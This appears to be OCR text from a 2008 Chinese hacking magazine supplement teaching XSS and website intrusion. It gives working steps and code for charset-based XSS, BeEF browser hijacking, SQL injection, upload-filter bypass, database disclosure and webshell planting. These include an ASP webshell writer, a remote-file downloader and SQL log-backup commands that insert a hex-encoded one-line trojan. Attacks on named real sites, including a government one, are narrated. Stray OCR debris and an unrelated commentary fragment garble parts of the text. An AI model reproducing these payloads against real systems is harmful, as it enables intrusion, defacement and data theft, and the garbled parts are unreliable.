然后新建个 HTML 文档，在里面写入代码：<a href=http:// 你要攻击的站点>开始注入跨站代码</a >，保存后将这个 HTML 文档传到任意的网站空间里，接着用 firefox 打开这个页面进行浏览，如图 9 所示。


我们可以在浏览器的右下角看到本页面的 Referer，如果看不到，可以点击浏览器菜单栏上的 “工具” — “refcontrol” 选项，在弹出的窗口中点击菜单栏上的 “选项” — “在状态栏显示” — “Referer” 即可。可以看到，我这里的 Referer 是 127.0.0.1，现在就可以编辑这个 Referer 为一个跨站脚本，如图 10 所示。

这时候再访问这个页面，浏览器右下面显示的 Referer 就变成我们自己编辑的带跨站代码的 URL 了，如图 11 所示。

现在点击页面上的 XSS INJ 超链接，这个时候我们编辑的 Referer就已经被攻击站点的来源统计给记录下来了。一般来说，每个站长或是管理员每天必做的事情可能就是站点更新和查看统计了，但是他肯定不知道查看统计居然也能中招！嘿嘿，这个方法只对部分 BLOG 或是统计程序有用，大家可以一试。

接下来就是重头戏——站内 XSS 攻击，这也是危害最大的 XSS 攻击手段之一，下面就让我们来一层层地揭开站内 XSS 攻击的面纱。

# “跨”越新高地 -- 最新XSS黑技大曝光


首先介绍大家都习以为常的站内XSS攻击吧，如图12所示，这个就是很有代表性的反射式XSS。引起反射式XSS的主要原因 是某文件的某变量没有做字符过滤。下面就让我们来介绍下近期反射式XSS的利用方法。


先来说说由字符集导致的浏览器跨站脚本攻击。这种类型的攻击早在06年就被安全研究人员指出，不过一直没 有在国内受到重视，而且由于我们国内大部分站点正是这种有漏洞的

# 非安全·黑客手册2008第一增刊

字符集，所以影响还是比较大。来看看GB 2312这个字符集的利用方法吧，某PHP文件的代码如下：

```
<HTML>
<HEAD>
<TITLE>nohack test</TITLE>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
</HEAD>
<BODY>
<input type="input" value="<?php echo $_GET['id1']; ?>
```

假设我们传入的变量过滤了像“<、>、'、"、/”等一系列字符，那么上面的这个PHP文件到底能不能注入跨站代码呢？答案当然是肯定的！

如果真的过滤了上面所说的字符，基本上是注入不了跨站代码了，如图13所示。但是GB2312这个字符集有个缺陷，由于GB2312是双字节的字符集，0xC1是一个GB2312的第一个字节，所以0xC1会和后面的某个字符组成一个GB 2312字符。


如图14所示，0xc1和后面的双引号结合成一个问号，导致第一个input里的双引号不能闭合，因此它就往下直到找到双引号闭合为止，这从页面的输入框中就能看出来。这样的话，第二个input的双引号就闭合不了，. 我们就可以注入跨站代码了。


# “跨”越新高地——最新XSS黑技大曝光

因为这里假设过滤了很多的字符，所以就用标签的expression来做文章吧，如图15所示，大家测试的时候要注意：expression 构造的跨站语句是个死循环。


在这里提醒一下，字符集GBK跟GB2313是一样的利用方法。传说UTF - 8 字符集还是比较安全的，但是我却看到了如图16所示的画面，这里跟GB2312的区别就是UTF - 8 利用的是%E0字符。


好了，由字符集引起的跨站漏洞就先说这么多，如果你对这方面感兴趣，可以自行查阅相关的资料。接下来介绍URL跳转攻击，这个从字面就能理解，就是找到一个有URL跳转缺陷的站点，然后构造个有跨站代码的地址，接着让那个URL跳转到我们自己构造的地址。就是这样的简单，如图17、图18所示，能看明白吗？当我们注册完以后，页面就会跳转到参数ru后面的URL。


# 非安全·黑客手册2008 第一增刊


2、框架跳转攻击

以前这种漏洞在QQ空间出现过，是典型的框架跳转。框架用的是QQ空间本身的，而内容却可以是任意的URL的内容，如图19、图20所示。


# “跨”越新高地——最新XSS黑技大曝光

这里的 U R L 我们可以构造一个有跨站代码的虚假页面，然后进一步利用，我曾经写过一篇关于框架 U R L 跳转的漏洞文章发表在《黑客手册》，大家可以去看一看，名字是《网络钓鱼要这样玩》，看后可能大家会有更多的启发。

# 3、JS 流注入攻击

这个总的来说就是把跨站代码注入到返回的 J S 文件里，在这里推荐大家看看大风的 WOBB 系列文章，我就不具体讲了，大风的 BLOG 是 http://hi.baidu.com/auillk5。

### 五、玩转 BEEF

XSS 不局限于挂马、写蠕虫、盗 cookie 等，它还能当远控来玩！当然不是让大家去 XSS 攻击后挂远控马，这需要用到 BEEF 这个程序！是国外大牛写的非常厉害的一个浏览器劫持程序。

建议将程序安装在 APACHE 下，IIS 下安装时，如果 method 的参数是 post 会导致 405 错误返回，参数 get 就 OK。这里就不深究其原因，如果不想麻烦就找个 APACHE 的 WEB 服务器安装此程序。这里就不介绍 APACHE 如何

把程序压缩包解压到 APACHE 设置的根目录下，我这里演示的地址是 127.0.0.1/beef，在浏览器中输入地址就会出现如图 21 所示的页面。


第一个输入框输入程序存放的相对路径，第二个输入框输入 B E E F 配置密码，这个密码可以在根目录的 P W . PHP 文件里找到，输入完毕后点击 “apply config” 按钮，如图 22 所示。


[PAGE 83]

# 非安全·黑客手册2008第一增刊

OK，成功配置，然后点击“finished”按钮即可。这时地址跳转到http://127.0.0.1/beef/ui/，以后这个地址就是控制台了，如图23所示。


下面我就来给大家演示这个程序的奇妙之处。为了区分，我在VM上装了个XP，然后执行所谓的服务端，其实就是一段JS代码，如图24所示。


看到了吗？我已经上线了，怎么样？是不是有点像远控啊？这个可是自动上线哦，跟反弹连接有得一拼。那它都有什么功能呢？这个啊……还得由我慢慢道来。

先从第一个开始，“Zombies” 就是僵尸、傀儡的意思，也就是被劫持的用户，点击它能查看当前机器的基本情况，如图25所示。

第二项“Autorun Modules”，在它下面有3个小项，分别是disable autorun、alert和deface。 disable autorun是关闭自动选项；Alert是开启自动弹窗选项；最后那个deface是开启自动破

# “跨”越新高地 -- - 最新XSS黑技大曝光

坏选项，这个选项并不需要选中上线的用户就可以操作。


如果你设置成自动的话，凡是中了你JS的人都会自动弹窗或是整个页面变成你想表达的字符串。我这里把自动弹窗选项选中，然后输入弹窗的内容，如图26所示，接着你再打开那个嵌有JS的页面，看到了吧，刚一点中，就弹出窗口，如图27所示。这样很容易被受控者发现，所以我们一般都是选择关闭，除了那些喜欢炫耀的人。


# 非安全·黑客手册2008 第一增刊

现在我们再设置deface，在它下面还有好多选项。这里设置输出的String为welcom nohack，接着打开测试页面，如图28所示。


原来的那句The main page more content就自动变成welcome nohack了，整个原有的页面都被破坏了。

第三项standard modules可要好好利用，这个软件神奇的地方也就在这里，如图29所示！我只简单介绍其中两个比较好玩的功能，其的大自己试验下就好了。一个是s t e a l clipboard，键盘记录；还有一个就是distributed port scanner，分布式端口扫描。


先来看看键盘记录功能吧，我写了了个P H P 文件，代码如图3 0 所示，是在页面显示一个输入框，然后再把后门JS嵌入到这个PHP文件里。接着选择steal clipboard，来到如图31所示页面。


# “跨”越新高地 -- 最新XSS黑技大曝光

![](img/1e41845bfc67cd28efa4c

# 三言两语说不尽 -- 非主流入侵

略掉第一步。下面，我将为各位介绍目前比较流行和常见的脚本入侵方法。

PS：大家在入侵或调试WEB脚本程序的时候，建议把“显示友好http错误信息”的功能关闭。具体操作：打开IE的“Internet 选项”，选择“高级”标签，然后找到“显示友好http错误信息”，把前面的勾去掉后点击“确定”按钮即可。

## 1、利用注入漏洞入侵网站

注入漏洞是危害非常大的漏洞，如果网站中存在注入漏洞的话，那么这个网站很可能会被轻易击溃！下面我们要测试的目标是一个发布房产信息的网站，其界面如图1所示。


我们打开“阿D 注入工具”，选择“扫描注入点”选项，然后在“检测网址”中填入目标网址，再按一下回车键。一会儿，工具就会为我们寻找出注入漏洞了，如图2所示。


接下来，我们在下方的“可用注入点”框中的红色地址上按

## 非安全·黑客手册2008 第一增刊

如图3所示。


这时会跳到另一个页面，之后我们点击“检测”按钮，就会出现关于这个漏洞的信息了，如图4所示。


图4 中的标示区域显示出了网站所使用的数据库类型，我们点击“检测表段”按钮就能猜测该网站的表段了，如图5所示。


从图5中可以看到“阿D注入工具”检测出了一个叫做“admin”的表，“admin”是“管理”的英文意思，我们可以确定这是一个重要的表段。选中它，点击“检测字段”按钮，当检测完字段后，我们选中所有的字段，然后点“检测内容”按钮就能猜测到所选字段的内容了，如图6所示。

## 三言两语说不尽 -- 非主流入侵


从图6中可以看出，admin表里的id、admin、password字段都被猜解出来了，说明我们已经获得了目标网站后台管理员的账号和密码，这就是注攻击的威力。

## 2、利用上传漏洞入侵网站

上传漏洞是比注入漏洞危害更大的漏洞，它能使攻击者直接获得Webshell，如果网站中存在上传漏洞，没有意外的话，该网站很可能会被轻易拿下！

比如我们在某站发现了存在上传漏洞的页面，如图7所示，一般都在提供文件上传功能的地方。


打开它后我们用抓包工具WSE进行抓包，如图8所示。然后直接上传一个asp文件，页面就会返回一个上传失败的信息，这时我们回到抓包工具就会发现，上传的数据包信息已经抓到了，如图9所示。


## 非安全·黑客手册2008第一增刊

我们把数据包信息完整地复制到一个记事本中，并保存为nohack.txt，如图10所示。

```
--7d86d91603dc
Content-Disposition: form-data; name=
```


得到数据包后，打开winhex编辑工具，把“xiaoma.asp”修改为“xiaoma.asp .gif”（注意，要把空格改为十六进制的% 00），再修改一下长度的属性，然后就可以用NC提交了，命令为“nc -vv 网站地址 80<nohack.txt>nohack.htm”，如图11所示。


过一会儿后，NC就会为我们生成一个名称为nohack.htm的文件来保存返回数据，我们打开它，如图12所示。


现在查看这个网页的源代码，就能找到webshell的地址了，如图13所示。


上传漏洞的危害是非常恐怖的，它在入侵中为我们创造了一个很方便的捷径。如果一个站点存在这种安全隐患的话，这个网站的防线可以说是彻底崩溃了！

## 3、利用%5c暴库漏洞入侵网站

暴库漏洞，就是通过一些技术手段或者程序漏洞得到目标网站数据库绝对路径，并将其数据库下载到本地。当攻击者获得了网站的数据库后，那么这个网站几乎所有信息都会被泄漏给攻击者。暴库漏洞一般只适用于 access 数据库，因为 access 数据库是以文件形式存放在计算机上，而其他诸如 MSSQL、MYSQL 或 Oracle 等都不是用这种方式来储存和读取数据的。

在了解暴库漏洞之前，需要先了解什么是绝对路径和相对路径。绝对路径就是你的主页上的文件或目录在硬盘上真正的路径，如 “C:\web
ohack.asp”；而相对路径就是相对于当前文件的路径，网页中一般表示路径时就使用这个方法。比如一个文件的路径是 “http:// / www.nohack.cn/blog/blog.asp”，则表示 “blog.asp” 文件在 blog 目录中。如果这个页面中有个连接是指向网站首页 index.asp，这个连接就应该这样表示：“../index.asp”，“.. /” 的含义是上一级目录。明白了这一点，相信你已经懂得了什么是相对路径。

了解了相对路径和绝对路径的知识后，我们就来了解暴库攻击的方法。暴库漏洞，顾名思义就是把网站的数据库暴出来，那么如何进行暴库攻击呢？方法有两种：

+   (1) 访问数据库连接文件直接暴出

在 asp 中，目前数据库的连接文件一般都为 conn.asp、config.asp、conn.inc 或 config.inc 等，很多时候，由于 conn.asp 或 config.asp 文件中的代码编写有缺陷，只要一访问该文件，该网站数据库的路径就会被暴露出来。

而以 inc 为后缀的文件由于不是 asp 这类让服务端执行代码的文件，所以无论其代码是如何编写的，只要一访问该文件，文件的源代码就会全部泄漏。

+   (2) 利用 %5c 暴库法来暴出网站的数据库

关于 % 5 c 暴库的原理我就不详述了，有兴趣的朋友可以到网上查阅相关资料。如何利用 % 5 c 暴库法，方法很简单，只要把目标网站二级目录前面的 “/” 改为 “% 5 c” 就可以了，具体操作效果如图 14 、图 15 所示。


## 非安全·黑客手册 2008 第一增刊

图14是正常访问时的页面，图15是将连接页面文件index.asp前的“/”改为“%5c”后访问的效果，可以看到数据库的绝对路径被成功暴出来了。现在我们运用前面讲过的绝对路径与相对路径的知识，打开“http://127.0.0.1/db/bookshop.mdb”这个网址来下载数据库，如图16所示。


当我们下载数据库到本地后，用Domain3.5的数据库浏览工具打开这个数据库，该网站的所有信息就一览无遗了。

### 4. 利用第三方WEB程序入侵网站

目前的主流入侵方式中，利用第三方WEB程序进行入侵的实例占了60%，其中，大部分都是利用一款名曰“ewebeditor”的在线编辑软件，下面我们就来利用“ewebeditor”对一个网站进行入侵。

首先利用“ewebeditor”的一些漏洞（说成是缺陷可能更贴切）获得管理员账号和密码，然后打开其目录下的“admin_login.asp”文件进行登录，登录后的界面如图17所示。


关于如何获得ewebeditor管理员账号和密码的方法有很多，比如下载其默认数据库“db / ewebeditor.mdb”和直接用默认账号／密码“admin/admin”及“admin/admin888”来登录。

成功登录后，我们点击“样式管理”中的“新增样式”，如图18所示。

打开新增样式的页面后，我们随便给新样式写个名称，然后在“图片类型”对话框中新增一个“asa”样式。一切完成后点击“提交”按钮，如图19所示。


的功能，然后点击“预览”按钮，打开“上传图片”的页面，直接上传一个 webshell 即可，如图 2 0 所示。


很多网站都有这种第三方 W E B 程序的存在，大家可以试试从这里突破。倘若一个网站的主页安全防护做得很好，但是存在这种第三方程序的漏洞，网站的防线就会彻底崩溃。

这个小节中，为大家总结和复习了一些目前比较主流的脚本入侵技术，下面就要开始从一些实例中学习入侵的思路了。

### 三、入侵思路实例赏析

本节主要是让各位读者了解一些非主流的入侵思路，所有实例均以拿下某网站为人侵目的，就是说获得某个网站的权限。

## 1、入侵实例赏析一之利用旁注拿下目标网站

这次我入侵的目标是一个骗子网站，网站地址为 “http://www.xuehk.com”，网站界面


如图21

这个网站的页面几乎全是静态的，想了一会儿，我在脑中整理出了三条思路：

+   (1) 扫描该网站的所有目录，看看有没有可利用的地方；
(2) 利用旁注入侵服务器的一个网站，成功提权后就能拿下目标网站了；
(3) 入侵该网站服务器的C段IP，再利用嗅探攻击来拿下目标。

整理好思路后，我花了10多分钟搜集齐了www.xuehk.com的所有目录，如下所示：

+   http://www.xuehk.com/
http://www.xuehk.com/book/
http://www.xuehk.com/vip/
http://www.xuehk.com/pojie/
http://www.xuehk.com/js/
http://www.xuehk.com/xz/
http://www.xuehk.com/zs/
http://www.xuehk.com/shop/
http://www.xuehk.com/yewu/
http://www.xuehk.com/zs/photo/xiao/
http://www.xuehk.com/zs/photo/da/
http://www.xuehk.com/zs/photo/

. 然后我分别使用网站猎手和明小子的批量扫描功能把以上目录都扫了一遍，结果无功而

## 三言两语说不尽 -- 非主流入侵

返。看来从主站入手是几乎没有可能了，所以我选择了第二条思路——利用旁注先拿下一个与目标网站在同一服务器的网站的webshell。

到 “http://www.114best.com/ip” 这里输入目标网站地址后就能查询到该网站所在服务器中的其他网站了。很快，我就利用上传漏洞获得了一个网站的webshell，如图22所示。页面所示的是我的一句话木马，因为服务器中安装了比较厉害的杀毒软件，所以我不能成功上传大马。


我用l a k e 2 的一句话客户端查看了一下服务器信息，得知一句话木马所在目录为 “F : \wwwroot\****\wwwroot\”，其中****为网站的前段，所以可以推测得出目标网站的绝对路径为 “F:\wwwroot\xuehk\wwwroot”。

于是我马上尝试跳转到此目录，但是显示没有权限。这时我想到，asp.net 的木马权限可能会比 asp 的木马高一点，于是马上上传一个asp.net 的一木马。但是上传好asp.net 一句话木马后却发现服务器并不支持asp.net，这使得我陷入了困境。

查看一下终端信息，发现端口被改为了60015，又查看了一下第三方软件的信息，发现服务器安装了Serv-U，但是默认密码被改了，MSSQL 和 MYSQL 也没有安装，而且服务器的权限设置得很死，连“开始” – “程序”都打不开。

本想上传cmd.asp 尝试执行命令，但却被服务器的杀毒软件给kill了，于是我自己操刀写了个执行cmd命令的asp脚本。成功上传到服务器后，执行命令时却显示失败。想了一下，可能是管理员删除了cmd.exe，也可能是服务器的权限设置问题。用一句话木马查看服务器的信息，发现Wscript并没有被禁止，本想用Wscript来执行命令，但是常用的everyone 目录都不能写。

耐心地找了N久，终于找到了一个能写的目录，路径是 “C:\Program Files\free3web~”，这着实吓了我一跳，常用的everyone 目录都不能写，一个软件的目录居然能写！

打开这个目录看了看，不知道是什么东西，不管它了，回头再研究。当我准备把cmd.exe 上传到服务器的时候，又发现了一个问题，就是我该如何把二进制文件传上服务器呢？一句话木马只支持文本上传。有的朋友可能说：用Wget.vbs 来下载，但是你想想，我们该怎么执行命令让Wget.vbs 去下载文件啊？经过思考，终于想到了一个办法，既然不能上传，但能下载吧？于是利用Microsoft.XMLHTTP来下载文件到服务器上。

先把cmd.exe 传到自己的网站上（为了减少体积，我用FSG压缩了cmd.exe!），然后打开一句话木马客户端增强版，填好一句话木马的信息后，把第三个框清空，再把第二个框的代码换成如下信息：

```
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET","被下载文件的网址",False
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
```

```
sGet.Type = 1\nsGet.Open()\nsGet.Write(xPost.response)\sGet.SaveToFile Server.MapPath(“保存的文件名”).2\set sGet = nothing\set sPOST = nothing\response.Write(“下载成功！”)
```

一切准备好后，我们点击“G O”按钮，一会儿文件就会被下载到服务器上了，如图2 3 、图2 4 所示。

![](img/1e41845bfc67cd28efa4c842bc672d23

# 非安全·黑客手册 2008 第一增刊

# 2、入侵实例赏析二之另类拿 webshell 方法搞定目标

这次我们要入侵一个假的视频网站，其网站界面如图 2 8 所示。经过一段时间的搜查，我发现其搜索功能存在注射漏洞，所以我用 N B S I 对其进行了注入攻击，如图 2 9 所示。


利用 N B S I 猜解出管理员的账号和密码后，我们打开后台登录页面 “/admin” 进行登录。登录后我才发现，这个后台只是发布新闻用的，可能并不是真正的视频发布和审核后台。观摩了一会儿，我发现这个后台是以尘缘雅境的后台为核心所编写的，如图 3 0 所示。

包含用户名、密码等信息的表单，			"bbox": [0.11


# 三言两语说不尽-- 非主流入侵

细心的朋友可以看出，图3 0 中有一处上传的地方，但是我尝试了多种上传方式都未能成功获得 webshell。然后我又打开“设置网站属性”的功能，发现有添加上传文件类型的选项，于是乎马上添加了一个 asa 的上传类型，如图31 所示。

| TOP菜单一、二页选择 : 二级 |
| LOGO图标 : images/f2.gif |
| LOGO标URL : http://www.wsjx.zjwu.net/joy/enjoy-news/ |
| LOGO类型 : photo |
| Banner : images/f3.gif |
| Banner URL : http://www.wsjx.zjwu.net/joy/enjoy-news/ |
| 上传文件类型 : doc|ppt|xls|rar|zip|mdb|mp3|pdf|gsp|DWF 用小写“|”分开

[PAGE 103]

# 非安全·黑客手册2008 第一增刊

远程图片的地址是由我们定的，一般程序不会检测定义的远程图片地址的后缀。那么，如果我们定义的远程图片地址后缀为asp的话，“保存远程图片”这个功能会不会直接为我们保存asp文件呢？经过测试，是可以的，但是不能直接在其中输入一个asp小马的地址，因为这样是不会成功的，我们必须让asp小马的后缀为asp，但是又不能使其执行asp的代码。

这里，我给出两个方法：

方法一：在本地架设一个支持asp的服务器，并将asp扩展删除掉。这样，在访问你架设的服务器上的asp文件时，asp代码就不会被执行，而是直接返回源代码。

方法二：编写一段asp代码，使别人访问该asp文件的时候返回一段asp代码。

我认为方法二比较简单和没有局限性，所以选择方法二来进行讲解，编写的a sp 代码如下：

```
<%
Set fs = CreateObject("Scripting.FileSystemObject")
Set MyTextStream=fs.OpenTextFile(server.MapPath(\"xiaoma.asp\"),1,false,0)
Thetext=MyTextStream.ReadAll
response.write thetext
%>
```

把以上代码保存为ys.asp，然后再把以下代码保存为xiaoma.asp，并存放在与ys.asp相同的目录下：

```
<%on error resume next%>
<%ofso="scripting.filesystemobject"%>
<%set fso=server.createobject(ofso)%>
<%path=request(\"path\")%>
<%if path<>"" then%>
<%data=request(\"dama\")%>
<%set dama=fso.createtextfile(path,true)%>
<%dama.write data%>
<%if err=0 then%>
<%=\"success\"%>
<%else%>
<%=\"false\"%>
<%end if%>
<%err.clear%>
<%end if%>
<%dama.close%>
<%set dama=nothing%>
<%set fos=nothing%>
<%\"<form action='\' method=post>\"%
<%\"<input type=text name=path>\"%
<%\"<br>\"%
<%=server.mappath(request.servervariables(\"script_name\"))%>
<%\"<br>\"%
<%\"\"%
<%\"<textarea name=dama cols=50 rows=10 width=30></textarea>\"%
<%\"<br>\"%
<%\"<input type=submit value=save>\"%
<%\"</form>\"%
```

其中，ys.asp文件的作用是映射xiaoma.asp文件的代码。把这两个文件都放到支持ASP的空间或你的webshell上（各位读者应该至少有一、两个webshell吧？），然后打开图33所

[PAGE 104]

# 三言两语说不尽 -- 非主流入侵

示的功能页，在“图片地址”中输入 ys.asp 文件的网址后点击“插入”按钮，如图 3 4 所示。


然后选择“保存远程图片”中的选项“是”，再在“添加文章”的功能中填写一些必要的数据，点击“添加”按钮后，过一会儿就会返回文章管理页了，如图 3 5 所示。

[PAGE 105]

# 非安全·黑客手册2008第一增刊

### 3. 入侵实例赏析三之%5c暴库与数据库插马完美配合拿下目标

这次我们要入侵的目标是一个很杂的网站，它提供很多服务，但其绝大部分页面都是H T M L 静态网页。找了很久，看到了一款在韩国很流行的“迷你屋”程序的后台，我发现这个后台的登录页面存在注入漏洞，所以利用万能密码“'or'='or'” 成功进入了后台，如图38、图39所示。


这时，我发现后台并没有上传页面，而且其功能也非常简陋，怎么办呢？整理了一下思路，这种程序应该是使用Access类型数据库的，如果我们能暴库，而数据库后缀为asp，并且数据库中没有防下载表的话，是不是就可以往数据库中插入一句话木马来获取webshell呢？马上使用%5c暴库法尝试暴出数据库的绝对路径，结果成功，如图40所示。


呵呵，如我所愿，数据库的类型居然是a sp 的。我直接访问了一下数据库，发现其并没有加防下载表，接着就是寻找往数据库插入数据的地方。找了一会，终于找到了一个“新建房间”的功能，于是点击它，发现它是javascript编写的提交页，还提示不能超过6 个字符。不过我们不用管，因为我发现这个功能无论在客户端或服务器端都没有限制字符，所以我们直接写一句话木马进去就行，如图41所示。


新建好房间后，我们打开数据库看看，发现一句话木马已经成功寄生在数据库里面了，如图42所示。现在，我们只要用一句话木马客户端连接数据库就能控制整个网站了。

[PAGE 106]

# 三言两语说不尽 -- 非主流入侵

技术信息（用于支持人员）
- 错误类型：Microsoft VBScript 运行时错误 (Ox800A000D)
  类型不匹配: 'execute'
  自 yhc.asp, 第 206 行
- 浏览器类型：Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1;
User-agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; http://bsalsa.com); MAXTHON 2.0)

个人经验：我们往数据库插马的时候，有时可能会连接不成功，很大原因是因为数据库的体积过于庞大，一般数据库超过 30M 的时候，我们就不能成功插马了。如果打开数据库的时候显示“%＞错误”之类的提示，则说明该数据库中存在防下载表，这时是不能往数据库插马的，但若能闭合错误，就能成功往数据库插马了。

在这次入侵的过程中，我们细心地从几乎全是静态页面的网站中找到了突破点，并成功进入了后台。但由于该后台过于简陋，使得我们不能直接获得 Webshell，但在整理思路后，结合暴库漏洞与数据库插马的方式成功拿下了目标。

# 4、入侵实例赏析四之利用傲游和迅雷辅助入侵

# (1) 傲游篇

有一次，我在入侵的时候，目标网站并没有明显的注入漏洞和上传漏洞，但仔细寻找后，终于找到了一个第三方 web 程序的漏洞，这款第三方 web 程序名叫“fckeditor”，它是与“ewebeditor”齐名的 web 在线编辑器。

这个漏洞仅仅适用于 Win2003 系统，我们打开 fckeditor 的页面，在页面中新建一个名为“1.asp”的文件夹，如图 43 所示。


然后往这个文件夹中上传一个后缀名为 jpg 的 Webshell 就行了，这里我上传的文件名为“dressroom.jpg”。但是由于 fckeditor 的目录很多，而且很深，所以有时候很难找到 Webshell 的确切地址，这里给各位读者提供几种得到 Webshell 路径的办法：

+   1、访问网站的内容，然后查看所有图片的属性，看看路径和文件名是否和 Fckeditor 上传目录里的文件名一样。如果一样的话，我们只要细心地推测一下就可以确定 Webshell 的路径了。

+   2、利用遨游浏览器的网页嗅探功能来找出 Fckeditor 上传的 Webshell 或文件路径。首先打开遨游浏览器的“工具”－“网页嗅探器”功能，然后在嗅探文件类型中选择“所有文件”，并且显示“嗅探通知”，如图 44 所示。

然后打开 fckeditor 的地址，之后我们再打开嗅探器，就会发现有一条这样的记录：“http:// /www.xxx.com/fckeditor/editor/filemanager/browser/default/connectors/asp/connector.

[PAGE 107]

# 非安全·黑客手册2008 第一增刊


asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/”，直接用浏览器浏览它，就会返回如图4 5所示的页面。

```
<xml version="1.0" encoding="utf-8"?>
<Connector command="GetFoldersAndFiles" res
    <CurrentFolder path="/ url="/data/userfiles/
        - <Folders>
            <Folder name="1.asp" />
            <Folder name="notice" />
            <Folder name="press" />
            <Folder name="product" />
        </Folders>
        - <Files>
            <File name="bedroom1.jpg" size="13" />
            <File name="bedroom2.jpg" size="9" />
            <File name="box01.jpg" size="70" />
            <File name="box02.jpg" size="83" />
            <File name="diningroom1.jpg" size="10" />
            <File name="diningroom2.jpg" size="16" />
            <File name="dressroom.jpg" size="23" />
        </Files>
    </Connector>
```

有些读者朋友可能一下子就看出这是个X M L格式的网页，从图4 5中可以看出，上面的“<CurrentFolder path=”/” url=”/data/userfiles/” />”，很明显地告诉了我们上传文件所处的网站相对路径为“/data/userfiles/”，因此，我们所上传的Webshell的相对路径就是“/data/userfiles/1.asp/dressroom.jpg”了。这样，我们可以推测出完整的Webshell路径就是：“http://www.xxx.com/data/userfiles/1.asp/dressroom.jpg”。

# (2) 迅雷篇

用迅雷辅助入侵的方法我很早就用了，网上似乎没有这类文章，唯一的就是在《黑客手册》上看到的“冰的原点”大哥所写的《入侵，我用迅雷》。下面我们就来探讨一下如何使用迅雷来辅助入侵。

在一次入侵过程中，我利用注入漏洞获得了目标后台管理员的账号和密码，但却始终找不到网站的后台。几经周折，居然发现了目标网站存在列目录漏洞，如图4 6所示。


虽然存在这种漏洞会使我们更快地找到后台，但是如果一个目录中存在类似于“index．asp”或“default.asp”之类的默认主页文件的话，那么我们就不能列取这个目录了。而如果我们对每个目录都进行查看，这就太浪费宝贵的时间和精力了，于是我想到了利用迅雷的“下载全部连接”功能来帮助我们找到后台。我就利用了这个功能来查找数据库，不一会儿就找到后台了，如图4 7所示。

[PAGE 108]

# 三言两语说不尽 -- 非主流入侵

.jpg |http://www.……:com/sxadmin/ 图47

呵呵，.马上利用列目录漏洞来列取这个后台的文件，如图4 8 所示。

[转到父目录]
2007年9月5日	11:01	3431_Suwl_add.asp
2007年9月5日	11:01.	1561_Suwl_list.asp
2007年9月5日	11:01.	1440_Suwl_ursave.asp
2007年9月5日	11:01.	1440_Suwl_ursave0.asp
2007年9月5日	11:01.	1764_Suwl_user.asp
2007年9月5日	11:01.	1736_Suwl_uup.asp
2007年9月5日	11:01.	2871_bb.asp
2007年9月5日	11:01.	245_checkadmin.asp
2007年9月5日	11:01.	617_checklogin.asp
2007年9月5日	11:01.	1432_css.css
2007年9月5日	11:01.	155_dfconn.asp
2007年9月5日	11:01.	2698_editfu.asp
2007年9月5日	11:01.	2671_editkf.asp
2007年9月5日	11:01.	3790_editnews.asp


图48
嘿嘿，后台的所有文件都一览无遗了，马上用刚才注入得到的账号与密码登录后台，再
利用上传漏洞获得了一个Webshell。

### 5. 入侵实例赏析五之利用社会工程学拿下目标

这次我们要入侵的目标是某个通信局的网站，其网址是 “http://www.xxxx.gov.cn”，
界面如图4 9 所示。


图49

在网站转了几圈，发现页面几乎都是静态asp 页面（即不带参数的asp 页面），于是就想
着用baidu hack来搜出该网站中带参数的asp 文件。打开baidu，在搜索框中输入 “site:xxxx.
gov.cn inurl;asp?”，谁知搜索出来的页面全部都是静态的asp 页面，如图50所示。
整理了一下思路，还是先找到后台再说吧，于是随手在网址的后面加上了 “/ admin”，结
果成功打开了其后台登录页面，如图5 1 所示。
尝试用一些弱口令 “admin /123456”、“admin /admin” 和 “admin /admin888” 来登录，但
结果都是不尽人意，当我尝试用万能密码 “'or'= 'or' ” 登录的时候，发现居然返回了SQL 的
错误信息，如图5 2 所示，难道有注人漏洞？
从图5 2 中可以看出，这个网站是使用MSSQL作为数据库的。既然有了突破点，我们就
进一步的去利用它吧！我用抓包工具把参数抓了出来后，然后放到了NBSI 3 .0中进行注入，
如图5（这里可能还有更多内容，比如图51、52等，但根据提供的图片，需要继续处理剩余段落。不过当前步骤需要准确识别所有可见元素。）

继续处理剩余段落：
- 后续段落：“如图5 2 所示。” 可能对应图52，但图片中没有显示完整，不过现有内容的最后一个句子是“如图53所示。” 所以需要把所有文字和对应的元素都包含进去。

现在检查每个元素的type和markdown，以及bbox（相对坐标，假设整个图片为[0
[content]# 非安全·黑客手册2008 第一增刊


嘿嘿，权限为Db_owner，看来有得搞了。只要我们找到该网站在服务器上的绝对路径，然后往里面这个目录中备份一个一句话木马进去，就能拿下目标了。

通过NBSI的列目录功能，我得到了网站的绝对路径为“D:\xxxx”，于是二话不说，马上使用以下代码备份了一个一句话木马进去：

+   1. ', alter database GDCA_Wa set RECOVERY FULL--\n2. ', create table cmd (a image)--\n3. ', backup log GDCA_Wa to disk = 'c:\cmd' with init--\n4. ', insert into cmd (a) values (0x3c002500650078006500630075007400650020007200650071007500650073007400280022006c 002200290025003e00)--'

# 三言两语说不尽 -- 非主流入侵

5. ',backup log GDCA_Wa to disk = 'd:\gdca\r.asp'--
6. ',drop table cmd--

其中的16进制代码的原文是“<%execute request("I")%>”。当我打开一句话木马地址的时候，发现一句话木马变成了如图54所示的页面。


看来我们的一句话木马并没有备份成功，于是我又用getwebshell 2.0进行log差异备份，但是仍然不能成功备份。然后我尝试备份“<script language=VBScript runat=server>exec-ute request("I")</Script>”进去，可结果还是失败了。仔细想了一下才明白，造成这种情况的原因有两个：

+   - 一、管理员设置了MSSQL在备份数据库的时候过滤掉“<”或“>”；
- 二、在这个数据库中本来就存在类似于“<%notdown”这样的防下载表。

看来想通过备份拿webshell的思路中断了。经过两分钟的思考，我决定猜解出这个网站的后台管理员密码，然后进入后台，再看看有什么能获得webshell的突破点。但是，在猜解表名的时候，NBSI竟然发生了意外，我换了几个注入工具依然如此。

难道就这样放弃吗？这时我又想到了一条思路！就是通过列目录来查找前人人侵时留下的后门，或许会有收获哦。经过近一个小时的查找，终于在admin目录下发现了一个可疑文件w.asp，打开后才发现是一句话木马，如图55所示。


呵呵，可能是前人在入侵完服务器后修补了服务器的一些漏洞，才导致我们不能正常的备份一句话木马。我打开lake2的一句话木马客户端连接w.asp的时候，试了几个常用的一句话木马密码，都不能连接，郁闷……还是再看一看有什么可疑文件吧。

